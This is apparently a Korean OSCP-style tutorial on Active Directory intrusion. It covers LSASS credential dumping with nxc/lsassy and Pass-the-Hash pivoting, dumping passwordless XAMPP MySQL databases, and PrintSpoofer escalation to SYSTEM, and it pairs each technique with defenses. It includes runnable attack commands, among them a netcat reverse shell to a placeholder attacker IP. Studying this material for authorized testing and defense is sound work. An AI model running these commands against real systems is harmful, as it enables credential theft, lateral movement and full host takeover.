

> [!summary] ⏱️ 5초 핵심 요약
> - **한 줄 비유**: AD 환경 침투는 **"방 하나를 열 때마다 책상 서랍(DB·설정 파일)과 경비원 주머니(LSASS 메모리)를 뒤져 다음 방문 열쇠를 줍고, 마지막 방에서 마스터 배지(`SeImpersonatePrivilege`)로 건물 전체를 장악하는 방탈출 연쇄 게임"**입니다.
> - **핵심 원리**: 제로데이 익스플로잇보다 **자격증명 수집(Harvesting) → 측면 이동(Pivoting) → 로컬 권한 상승(Privilege Escalation)** 루프가 실전의 핵심이며, ① **LSASS 메모리 덤프(`nxc` + `lsassy`)**, ② **개발 잔재 DB(XAMPP MySQL 등) 평문 덤프**, ③ **`SeImpersonatePrivilege` + PrintSpoofer 토큰 가장**이 가장 자주 엮입니다.
> - **핵심 방어**: **Credential Guard·`RunAsPPL`로 LSASS 보호 + 호스트별 로컬 관리자 암호 분리(LAPS) + 운영 서버 내 무인증 개발 DB 제거 + 서비스 계정 최소 권한(gMSA) 적용**으로 피벗 고리를 끊습니다.

윈도우 액티브 디렉터리(AD) 환경 침투의 핵심은 한 문장으로 줄어듭니다. **"이 호스트에서 주운 자격증명이 다음 호스트의 열쇠다."** 화려한 원격 코드 실행(RCE) 익스플로잇보다, 자격증명을 모으고(Harvest) 재사용해 옆으로 번지는(Pivot) 흐름이 실전과 OSCP 시험장에서 훨씬 자주 통합니다. (AD의 기본 인증·권한 구조는 [[공격 체인 이전의 AD 아키텍처 기초 — Kerberos, NTLM, DACL·ACE, GPO·SYSVOL, 도메인 트러스트]] 글을 먼저 참고하세요.)

여기서는 그 흐름에 가장 자주 등장하는 보편 기법 3가지를 정리합니다. 아래 명령은 전부 플레이스홀더(`<target>`, `<user>`)로 일반화했으며, 모든 기법은 본인 소유 랩이나 명시적으로 인가된 시스템에서만 재현하세요.



---

## 한눈에 보는 AD 자격증명 피벗·권한상승 3대 기법 비교

| 기법 구분 | 성립을 위한 필수 전제조건 | 공격자가 얻어내는 산출물 | 실전 핵심 도구 및 명령 | 최우선 방어 통제 |
|---|---|---|---|---|
| **1. LSASS 메모리 덤프** | 대상 호스트에 대한 **로컬 관리자(Local Admin)** 또는 `SeDebugPrivilege` 권한 | 해당 서버에 로그인·실행 중이던 **다른 도메인/서비스 계정의 NTLM 해시·Kerberos 티켓·평문 암호** | `nxc smb -M lsassy`, `nanodump`, `pypykatz` | **Credential Guard**, **LSA Protection (`RunAsPPL`)**, **LAPS** |
| **2. 개발 잔재 DB 평문 덤프** | 타깃 호스트의 로컬 셸 획득 + 무인증 로컬 DB(예: XAMPP MySQL `root`) 또는 설정 파일 노출 | 애플리케이션 DB에 저장된 **관리자·사용자 계정의 평문 비밀번호 또는 해시** | `mysqldump -u root --all-databases`, 설정 파일(`config.php`, `.env`, `web.config`) 열람 | 운영 서버에 XAMPP 등 개발 스택 금지, DB 암호 및 솔트 해싱 강제 |
| **3. `SeImpersonate` 토큰 가장** | IIS·MSSQL·Apache 등 **서비스 계정 셸** 획득 + `SeImpersonatePrivilege: Enabled` | 해당 호스트(또는 DC)의 최고 권한인 **`NT AUTHORITY\SYSTEM`** 셸 | `whoami /priv`, `PrintSpoofer64.exe`, `GodPotato` | 서비스 계정 최소 권한 부여, gMSA 도입, 불필요한 특권 회수 |

---

## 1. LSASS 메모리에서 자격증명 덤프 → 피벗

**💡 한 줄 비유**: 건물 1층 경비실(호스트 A의 로컬 관리자)을 장악한 뒤, **경비실 출입 기록 장부(`lsass.exe` 메모리)를 통째로 복사해 그 방을 다녀간 2층·3층 간부들의 마스터키(NTLM 해시·티켓)를 챙기는 기법**입니다.

### 핵심 원리
- **왜 `lsass.exe`에 자격증명이 모여 있는가?**: 윈도우의 **LSASS(Local Security Authority Subsystem Service)**는 사용자의 싱글 사인온(SSO)과 세션 유지를 위해 현재 로그인한 사용자 및 실행 중인 윈도우 서비스 계정의 **NTLM 해시, Kerberos 티켓(TGT/TGS), 때로는 WDigest 평문 자격증명**을 메모리에 캐싱하고 있습니다.
- **성립 전제조건**: 일반 사용자 권한으로는 `lsass.exe` 프로세스 메모리를 읽을 수 없으며, 반드시 해당 호스트의 **로컬 관리자(Local Administrator) 권한(구체적으로는 `SeDebugPrivilege`)**을 먼저 확보해야 실행할 수 있는 사후(Post-Exploitation) 동작입니다.
- **원격 자동 덤프·파싱 (`lsassy`)**: 과거에는 호스트 안에서 Mimikatz를 직접 실행하다 백신(AV/EDR)에 바로 막혔지만, 실전에서는 [NetExec(`nxc`)](https://www.netexec.wiki/)의 `lsassy` 모듈을 사용해 원격에서 LSASS 메모리 미니덤프를 뜨고 공격자 칼리 머신으로 가져와 오프라인 파싱하는 방식을 주로 씁니다.

### 실전 명령어 흐름
```bash
# 1. 확보한 계정이 타깃 호스트의 로컬 관리자인지 확인 (출력 끝에 (Pwn3d!) 표시 확인)
nxc smb <target> -u <admin_user> -p '<password>'

# 2. 로컬 관리자 권한으로 원격 호스트의 LSASS 메모리를 덤프·파싱 (lsassy 모듈)
nxc smb <target> -u <admin_user> -p '<password>' -M lsassy

# 3. 회수한 다른 계정의 NTLM 해시로 옆 호스트들에 Pass-the-Hash 피벗 시도
nxc smb <subnet/24> -u <harvested_user> -H '<ntlm_hash>' --continue-on-success
```

### 체크 포인트 및 방어
- **진단 시 주의점**: LSASS 메모리 접근은 모든 현대 EDR과 Windows Defender가 1순위로 감시하는 행위입니다. 로컬 관리자(`(Pwn3d!)`)가 확인되었을 때만 신중하게 수행하세요.
- **핵심 방어 4종 세트**:
  1. **Windows Defender Credential Guard**: 가상화 기반 보안(VBS)으로 LSASS 비밀을 격리해 메모리를 덤프해도 해시를 뽑지 못하게 차단
  2. **LSA Protection (`RunAsPPL`)**: 레지스트리(`HKLM\SYSTEM\CurrentControlSet\Control\Lsa\RunAsPPL = 1`) 설정으로 비보호 프로세스의 LSASS 핸들 오픈 차단
  3. **Windows LAPS**: 모든 워크스테이션·서버의 로컬 관리자 비밀번호를 호스트마다 다르게 자동 회전시켜 한 대가 뚫려도 옆 서버로 번지지 않게 차단
  4. 도메인 관리자나 고권한 서비스 계정이 일반 서버에 대화형(RDP 등)으로 로그인하지 않도록 계층 분리(Tiering) 적용

---

## 2. 애플리케이션이 DB에 평문 자격증명을 저장 (개발 잔재 악용)

**💡 한 줄 비유**: 서버실 구석에 **개발자가 테스트용으로 들여놓고 깜빡 안 치운 임시 금고(XAMPP MySQL)가 잠기지도 않은 채(`root` 무인증) 놓여 있는데, 그 안에 회사 임직원들의 실제 비밀번호 수첩이 평문 그대로 들어 있는 상황**입니다.

### 핵심 원리
- **운영 서버에 남은 개발 스택의 위험**: 현업이나 OSCP 머신에서는 개발 편의를 위해 설치한 **XAMPP, WAMP, Laragon** 같은 올인원 패키지가 운영 서버에 그대로 방치된 경우가 많습니다. 특히 XAMPP의 MySQL/MariaDB는 **로컬(`127.0.0.1`)에서 `root` 계정이 비밀번호 없이(빈 암호) 접속 가능한 기본 상태**가 매우 흔합니다.
- **자격증명 재사용(Password Reuse) 노리기**: 웹 애플리케이션 DB의 `users`, `accounts`, `creds` 테이블에 저장된 평문 비밀번호(또는 쉽게 크랙되는 MD5/SHA1 해시)를 덤프한 뒤, **사람들이 DB 비밀번호와 AD 도메인/윈도우 로컬 계정 비밀번호를 똑같이 돌려쓴다는 점**을 이용해 다음 호스트나 상위 계정으로 피벗합니다.

### 침투 직후 필수 열거 경로 및 덤프 명령어
```powershell
# 1. 로컬에서만 열려 있는 내부 포트(3306 MySQL, 5432 PostgreSQL, 6379 Redis 등) 확인
netstat -ano | findstr LISTENING

# 2. 개발 스택 및 웹 설정 파일에서 DB 연결 정보·평문 암호 탐색
dir C:\xampp C:\wamp C:\inetpub\wwwroot /s /b | findstr /i "config.php .env web.config settings.py"

# 3. XAMPP MySQL이 무인증 root로 열려 있을 때 전체 데이터베이스 일괄 덤프
C:\xampp\mysql\bin\mysqldump.exe --all-databases -u root > C:\Windows\Temp\dump.sql

# 4. 덤프 파일에서 비밀번호·계정 데이터 추출
findstr /i "INSERT password admin user" C:\Windows\Temp\dump.sql
```

### 체크 포인트 및 방어
- **체크 포인트**: 초기 셸을 획득하면 무조건 `C:\` 루트 디렉터리(`C:\xampp`, `C:\wamp`, `C:\dev`, `C:\backup`), 웹 루트의 설정 파일(`config.php`, `wp-config.php`, `.env`, `web.config`), 그리고 `netstat -ano`의 `127.0.0.1` 바인딩 포트를 가장 먼저 뒤졌는가?
- **핵심 방어**:
  1. 운영 환경에 개발용 통합 스택(XAMPP 등)을 그대로 배포하지 않으며, 모든 DB의 `root`/관리자 계정에 강력한 비밀번호와 최소 권한 계정을 분리 적용
  2. 애플리케이션 DB에 사용자 비밀번호를 절대 평문이나 단순 해시(MD5/SHA1)로 저장하지 않고 **bcrypt / Argon2 / PBKDF2** 등 솔트 기반 단방향 해싱 강제

---

## 3. SeImpersonatePrivilege → PrintSpoofer로 SYSTEM 상승

**💡 한 줄 비유**: 웹·DB 주방에서 일하는 직원이 **"손님이 맡긴 신분증을 잠깐 차고 심부름을 할 수 있는 권한(`SeImpersonatePrivilege`)"**을 가지고 있을 때, **건물 총책임자(`SYSTEM`)에게 내선 전화를 걸어(Named Pipe) 신분증을 확인하게 만든 뒤 그 신분증을 복제해 총책임자가 되는 기술**입니다.

### 핵심 원리
- **왜 서비스 계정에 이 권한이 있는가?**: IIS(`iis apppool\...`), MSSQL(`nt service\mssqlserver`), Apache/XAMPP 서비스 등 윈도우 서비스로 돌아가는 프로세스는 접속한 클라이언트의 권한으로 작업을 대행해야 할 때가 많아, 기본적으로 **`SeImpersonatePrivilege`(인증 후 클라이언트 가장)** 또는 **`SeAssignPrimaryTokenPrivilege`**가 부여됩니다. 반면 일반 도메인 사용자 계정에는 이 권한이 없습니다.
- **PrintSpoofer의 작동 원리**: 공격자가 로컬에 명명된 파이프(Named Pipe)를 만들고 Windows Print Spooler 서비스(`spoolsv.exe`, `NT AUTHORITY\SYSTEM`으로 실행됨)에 RPC 요청을 보내 그 파이프에 강제로 연결하게 만듭니다. 연결되는 순간 `SeImpersonatePrivilege`를 이용해 `SYSTEM` 토큰을 복제하고 원하는 명령이나 리버스 셸을 최고 권한으로 띄웁니다. (만약 Print Spooler가 꺼져 있는 환경이라면 RPC/DCOM 기반인 **GodPotato**를 사용하면 됩니다 — [[AD 환경 Kerberos 체인 공격 - 위임 남용과 토큰 가장]] 참고)

### 실전 명령어 흐름
```powershell
# 1. 현재 셸 계정의 토큰 특권 확인 — SeImpersonatePrivilege 가 있는지 최우선 점검!
whoami /priv

# 출력 예시:
# Privilege Name                Description                               State
# ============================= ========================================= =======
# SeImpersonatePrivilege        Impersonate a client after authentication Enabled

# 2. PrintSpoofer로 즉시 대화형 SYSTEM 콘솔 열기 (-i -c cmd)
.\PrintSpoofer64.exe -i -c cmd

# 3. 비대화형 웹셸/단발성 셸에서 SYSTEM 권한으로 리버스 셸이나 새 관리자 생성 실행
.\PrintSpoofer64.exe -c "C:\Windows\Temp\nc.exe <attacker-ip> 4444 -e cmd.exe"
```

### 체크 포인트 및 방어
- **체크 포인트**: 웹 취약점이나 DB(`xp_cmdshell`), 혹은 서비스 계정 비밀번호 재사용으로 셸을 잡자마자 **가장 먼저 `whoami /priv`를 쳐서 `SeImpersonatePrivilege` 또는 `SeAssignPrimaryTokenPrivilege` 유무를 확인**했는가? (`Disabled`로 표시되어 있어도 프로세스 토큰에 존재하기만 하면 도구가 자체적으로 `Enable` 시켜서 익스플로잇이 가능합니다!)
- **핵심 방어**:
  1. 웹 서버나 애플리케이션 데몬을 과도한 특권이 붙은 기본 계정이나 `LocalSystem`으로 돌리지 않고, 불필요한 `SeImpersonatePrivilege`를 제거한 최소 권한 전용 가상 계정·**gMSA**로 분리
  2. 사용하지 않는 **Print Spooler(`Spooler`) 서비스 비활성화** 및 최신 Windows 보안 패치 유지

---

## 4. 세 기법이 하나로 이어지는 실전 피벗 루프 정리

**💡 한 줄 비유**: 구슬 세 개도 꿰어야 보배가 되듯, **`권한 상승(Local Admin/SYSTEM)` → `자격증명 수확(LSASS/DB)` → `옆 호스트로 이동(Pivot)`**이라는 3박자 루프를 기계적으로 반복하는 것이 AD 침투의 본질입니다.

```text
초기 발판 (가정된 침해 / 약한 초기 자격증명)
        │
        ▼
[1] 호스트 A 장악 (Local Admin) ──► LSASS 메모리 덤프 (nxc -M lsassy)
        │                          → 캐시된 서비스/운영자 계정 자격증명 회수
        │  (자격증명 재사용 Pivot)
        ▼
[2] 호스트 B 접근 (앱 서버)     ──► 방치된 XAMPP MySQL 무인증 덤프 (mysqldump -u root)
        │                          → 테이블 내 관리자/타 사용자 평문 비밀번호 회수
        │  (자격증명 재사용 Pivot)
        ▼
[3] 호스트 C (DC 등) 서비스 셸  ──► whoami /priv (SeImpersonatePrivilege 확인)
                                   → PrintSpoofer64.exe 로 NT AUTHORITY\SYSTEM 장악!
```

### 실전 AD 침투 시 기억할 3줄 행동 강령
1. **셸을 따면 내 발밑부터 털어라**: 새 호스트에 들어오면 바로 밖을 스캔하지 말고, 그 호스트 안의 설정 파일(`.env`, `config.php`), 로컬 DB(`mysqldump`), PowerShell 히스토리(`ConsoleHost_history.txt`)부터 먼저 확인합니다.
2. **서비스 계정이면 `whoami /priv`, 관리자면 `lsassy`**: 현재 셸이 서비스 계정이면 `SeImpersonatePrivilege`로 즉시 `SYSTEM`을 따고, `SYSTEM`이나 로컬 관리자가 되면 곧바로 LSASS와 SAM/LSA Secrets를 덤프해 새로운 자격증명을 수확합니다.
3. **주운 열쇠는 모든 문에 다 찔러라**: 새로 얻은 비밀번호나 NTLM 해시는 `nxc smb/winrm/mssql/rdp`로 서브넷 내 다른 호스트들과 기존 계정 목록에 교차 대입(Password Spraying)해 다음 피벗 경로를 엽니다.

---

## 참고
- [NetExec(nxc) 공식 위키](https://www.netexec.wiki/)
- [PrintSpoofer (itm4n)](https://github.com/itm4n/PrintSpoofer)
- [lsassy (Hackndo)](https://github.com/Hackndo/lsassy)
- 확보한 도메인 자격증명으로 Kerberos 위임을 넘어가는 심화 체인은 [[AD 환경 Kerberos 체인 공격 - 위임 남용과 토큰 가장]] 글을 이어서 참고하세요.
